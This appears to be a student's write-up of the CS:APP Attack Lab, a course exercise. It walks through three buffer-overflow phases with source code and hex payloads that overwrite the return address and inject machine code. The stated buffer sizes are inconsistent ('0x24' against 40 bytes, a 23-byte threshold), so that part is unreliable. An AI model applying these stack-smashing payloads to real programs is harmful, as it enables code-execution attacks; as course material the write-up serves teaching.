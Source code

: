 # Attack Lab

> This lab teaches the students about the stack discipline and teaches them about the danger of writing code that is vulnerable to buffer overflow attacks.

Before starting the lab, read [Writeup](http://csapp.cs.cmu.edu/3e/attacklab.pdf) & CSAPP 3.10.3, 3.10.4 carefully.

## Code Injection Attack

### Phase 1

> Same as textbook.

```c
// when s increase, %rsp address decrease
char *Gets(char *s) {
    int c;
    char *dest = s;
    while ((c = getchar()) != '\n' && c != EOF) {
        *dest++ = c;
    }
    if (c == EOF && dest == s)
        // No characters read
        return NULL;
    *dest++ = '\0'; // termination string
    return s;
}

unsigned getbuf() {
    char buf[BUFFER_SIZE];
    Gets(buf);
    return 1;
}

// getbuf is called by test
void test() {
    int val;
    val = getbuf();
    printf("No exploit. Getbuf returned 0x%x\n", val);
}

// our target
void touch1() {
    vlevel = 1; /* Part of validation protocol */
    printf("Touch1!: You called touch1()\n");
    validate(1);
    exit(0);
}
```

What we need to do is to inject a return the address of `touch1()` to `getbuf()`.

In our case, gcc allocated `0x24` bytes for `getbuf()` - 40 bytes.
That is: if input is less than 23 bytes (stack saved 16 bytes, '\0' 1 byte), it will work well.
But if input is more than 23 bytes, it will cause buffer overflow.

We need to inject a return address to `getbuf()` via buffer overflow.
The address is `0x00000000004017c0`.

So, the answer is:

```bash
# we donot care about the low 40 bytes
ff ff ff ff ff ff ff ff
ff ff ff ff ff ff ff ff
ff ff ff ff ff ff ff ff
ff ff ff ff ff ff ff ff
ff ff ff ff ff ff ff ff
c0 17 40 00 00 00 00 00 # little endian
```

### Phase 2

```c
void touch2(unsigned val) { // passed in %rdi
    vlevel = 2; /* Part of validation protocol */
    if (val == cookie) {
        printf("Touch2!: You called touch2(0x%.8x)\n", val);
        validate(2);
    } else {
        printf("Misfire: You called touch2(0x%.8x)\n", val);
        fail(2);
    }
    exit(0);
}
```

What we need to do is to inject code segment that store *cookie* to `%rdi`, and then call `touch2()`.
The only way to inject our code is to add our code segment to the string, make the string run as code.

The return address as above, should be our code segment's address.

```x86_64
0:	68 ec 17 40 00       	push   $0x4017ec
5:	48 c7 c7 fa 97 b9 59 	mov    $0x59b997fa,%rdi
c:	c3                   	ret
```

After `getbuf()` pushing stack, the `%rsp` is `0x5561dc78`. The first address of our code segment is
`0x5561dc78`, too.

So, the answer is:

```bash
68 ec 17 40 00 48 c7 c7 # code segment address, the dump code already little endian
fa 97 b9 59 c3 00 00 00
ff ff ff ff ff ff ff ff
ff ff ff ff ff ff ff ff
ff ff ff ff ff ff ff ff
78 dc 61 55 00 00 00 00 # the address of our code segment
```

### Phase 3

```c
/* Compare string to hex represention of unsigned value */
int hexmatch(unsigned val, char *sval) {
    char cbuf[110];
    /* Make position of check string unpredictable */
    char *s = cbuf + random() % 100;
    sprintf(s, "%.8x", val);
    return strncmp(sval, s, 9) == 0;
}

void touch3(char *sval) { // passed in %rdi
    vlevel = 3; /* Part of validation protocol */
    if (hexmatch(cookie, sval)) {
        printf("Touch3!: You called touch3(\"%s\")\n", sval);
        validate(3);
    } else {
        printf("Misfire: You called touch3(\"%s\")\n", sval);
        fail(3);
    }
    exit(0);
}
```

We need to store an array to somewhere, very similar to phase 2.
In order to prevent the string stored in the stack from being destroyed,
we need to store it safely. Obviously we need to store it in the stack/heap.

The `ret` will pop the return address, so after jumping to `touch3()`,
the `%rsp` is controlled by `touch3()` & its callees.

We need to store it into [temporary] saved stack. According to CSAPP 3.10.3,
the saved location is less than `getbuf()`'s stack representing by address value.

```bash
# ASCII version of cookie
35 39 62 39 39 37 66 61
```

```x86_64
0: 68 fa 18 40 00       	push   $0x4018fa
5: 48 c7 c7 a8 dc 61 55 	mov    $0x5561dca8,%rdi # the string address, stored in stack bottom of getbuf()
c: c3                   	ret
```

So, the answer is:

```bash
68 fa 18 40 00 48 c7 c7 # 0x5561dc78=0x5561dca0-0x28 (getbuf() allocate memory)
a8 dc 61 55 c3 00 00 00
ff ff ff ff ff ff ff ff
ff ff ff ff ff ff ff ff
ff ff ff ff ff ff ff ff
78 dc 61 55 00 00 00 00 # the address of our code segment; 0x5561dca0
35 39 62 39 39 37 66 61 # ASCII version of cookie; 0x5561dca0~0x5561dca8
# string is an array of char, head is '5'/'\35', tail is '\61'; first address is 0x5561dca0
```

> If we want to read the above hex, we need to read from bottom to top, from left to right.
